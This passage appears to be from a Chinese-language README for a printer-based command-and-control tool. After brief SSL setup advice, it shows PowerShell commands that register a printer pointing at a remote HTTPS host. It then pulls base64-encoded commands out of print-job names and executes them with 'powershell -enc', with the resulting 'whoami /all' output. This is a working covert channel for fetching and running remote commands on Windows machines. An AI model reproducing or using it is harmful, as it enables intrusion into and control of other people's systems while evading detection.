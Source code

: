 - 出于显而易见的原因，建议设置 SSL。设置 SSL 的最简单方法：  
  
- 为你的虚拟机设置/生成 DNS 记录  
  
- https://certifytheweb.com/可用于自动化 CSR 和安装  
  
- 确保编辑 IIS 下的站点绑定以启用 HTTPS 并禁用 HTTP  
  
- https://docs.microsoft.com/en-us/iis/manage/configuring-security/how-to-set-up-ssl-on-iis  
  
客户端  
  
要在客户端执行命令，需要添加打印机和持久作业来获取和执行命令。示例：  
```
PS C:\Users\regular> Add-Printer XPS -PortName https://somewhere.on.azure.com/printers/af/.printer -DriverName "Microsoft Print To PDF"

PS C:\Users\regular> Get-Printer XPS |fl


Name                         : XPS
ComputerName                 :
Type                         : Local
ShareName                    :
PortName                     : https://somewhere.on.azure.com/printers/af/.printer
DriverName                   : Microsoft Print To PDF
Location                     :
Comment                      :
SeparatorPageFile            :
PrintProcessor               : winprint
Datatype                     : RAW
Shared                       : False
Published                    : False
DeviceType                   : Print
PermissionSDDL               :
RenderingMode                :
KeepPrintedJobs              : False
Priority                     : 1
DefaultJobPriority           : 0
StartTime                    : 0
UntilTime                    : 0
PrinterStatus                : Normal
JobCount                     : 0
DisableBranchOfficeLogging   :
BranchOfficeOfflineLogSizeMB :
WorkflowPolicy               :

PS C:\Users\regular> ((get-printjob XPS).documentname -join "")
WwBzAGMAcgBpAHAAdABiAGwAbwBjAGsAXQAkAHgAPQB7AHcAaABvAGEAbQBpACAALwBhAGwAbAA7AGgAbwBzAHQAbgBhAG0AZQB9ADsAJAB4AC4AaQBuAHYAbwBrAGUAKAApAA==

PS C:\Users\regular> powershell -enc ((get-printjob XPS).documentname -join "")

USER INFORMATION
----------------

User Name               SID
======================= ==============================================
desktop-printingfun\regular S-1-5-21-1829223926-2430627930-1039442773-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
```